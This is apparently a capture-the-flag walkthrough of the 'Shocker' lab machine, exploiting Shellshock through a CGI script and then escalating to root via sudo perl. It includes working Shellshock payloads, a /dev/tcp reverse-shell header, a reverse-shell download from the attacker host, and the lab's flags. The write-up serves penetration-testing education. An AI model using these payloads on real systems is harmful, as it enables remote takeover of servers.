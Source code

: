Box: Linux
Level: Easy

### Index
1.  [Box Info](#Box%20Info)
2.  [Nmap Enum](#Nmap%20Enum)
3. [Web enumeration](#Web%20enumeration)
	1. [`Almost Got The Shell...`](#`Almost%20Got%20The%20Shell...`)
	2. [`Validating Shell Shock using nmap`](#`Validating%20Shell%20Shock%20using%20nmap`)
	3. [`ShellShock using CURL`](#`ShellShock%20using%20CURL`)
	4. [`User Flag using ShellShock`](#`User%20Flag%20using%20ShellShock`)
4. 

### Box Info
```
Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
```

### Nmap Enum
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn shocker.htb
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```
Only two open ports.  

### Web enumeration
```
# feroxbuster -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -C 404 -x sh
200      GET        7l       18w      119c http://shocker.htb/cgi-bin/user.sh
```

Browsing `http://shocker.htb` and `http://shocker.htb/cgi-bin/user.sh` would show us the following 
![](shocker_port80.png)

We will spin up Burp Suite to capture the HTTP request and response pair.

###### `Almost Got The Shell...`
![](shocker_ShellShock.png)
I started the NetCat Listener on port 4444 and trying to inject the ShellShock payload through the `User-Agent` HTTP Request Header however, the shell dropped right away.

###### `Validating Shell Shock using nmap`
```
# nmap -p80 --min-rate=1000 --script "http-shellshock" --script-args "uri=/cgi-bin/user.sh,cmd=ls" shocker.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-24 23:11 EDT
PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     Exploit results:
|       <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|   <html><head>
|   <title>500 Internal Server Error</title>
|   </head><body>
|   <h1>Internal Server Error</h1>
|   <p>The server encountered an internal error or
|   misconfiguration and was unable to complete
|   your request.</p>
|   <p>Please contact the server administrator at 
|    webmaster@localhost to inform them of the time this error occurred,
|    and the actions you performed just before this error.</p>
|   <p>More information about this error may be available
|   in the server error log.</p>
|   <hr>
|   <address>Apache/2.4.18 (Ubuntu) Server at shocker.htb Port 80</address>
|   </body></html>
```

You can perform the RCE using HTTP User Agent Request header and nmap using the following command. In my case, it was not echoing back the output in the HTTP response.
```
# nmap -p80 --min-rate=1000 --script "http-shellshock" --script-args "uri=/cgi-bin/user.sh,cmd='echo User-Agent: () { :; }; echo; /bin/whoami'" shocker.htb
```

###### `ShellShock using CURL`
```
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: shocker.htb' -H $'Accept-Language: en-US' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: () { :; }; echo; echo; /bin/bash -c \'cat /etc/passwd\'' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    $'http://shocker.htb/cgi-bin/user.sh'
```

###### `User Flag using ShellShock`
```
GET /cgi-bin/user.sh HTTP/1.1
Host: shocker.htb
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.8/4444 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

On the NetCat Listener Side,
```
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
0ccf63e4f368*********************
```
Get your User Flag

### Privilege Escalation

Uploaded `LinEnum.sh` and than running it throws the `Permission Denied`. Change the permission using `chmod +x LinEnum.sh` command. Following to that `LinEnum` run.
```
[-] Kernel information (continued):
Linux version 4.4.0-96-generic (buildd@lgw01-10) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017

[+] We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
[+] Possible sudo pwnage!
/usr/bin/perl

[-] Root is allowed to login via SSH:
PermitRootLogin yes

[-] Sudo version:
Sudo version 1.8.16
```

Looks like we are allowed to execute `Perl` command with sudo. I will simply grab the Perl Shell from the GitHub and get it on the target and execute.

###### `Grab the Perl Shell`
Grab the Perl Shell from [Here](https://github.com/pentestmonkey/perl-reverse-shell/blob/master/perl-reverse-shell.pl) and get it on the box. make sure to change the IP and Port.

```
shelly@Shocker:/tmp$ curl -o perl-reverse-shell.pl http://10.10.14.8/perl-reverse-shell.pl
<o perl-reverse-shell.pl http://10.10.14.8/perl-reverse-shell.pl             
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3713  100  3713    0     0  42872      0 --:--:-- --:--:-- --:--:-- 43682

shelly@Shocker:/tmp$ sudo perl perl-reverse-shell.pl

Content-Length: 0
Connection: close
Content-Type: text/html

shelly@Shocker:/tmp$ Content-Length: 41
Connection: close
Content-Type: text/html

Sent reverse shell to 10.10.14.8:5555<p>
```


On the NetCat Listener side
```
# nc -lvnp 5555           
listening on [any] 5555 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.56] 36822
 00:02:58 up  2:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)
/
/usr/sbin/apache: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd  
/
# cd root
# ls
root.txt
# cat root.txt
b4d7e8e22b046fd33bac60590020a747
# 

```

Grab the root flag.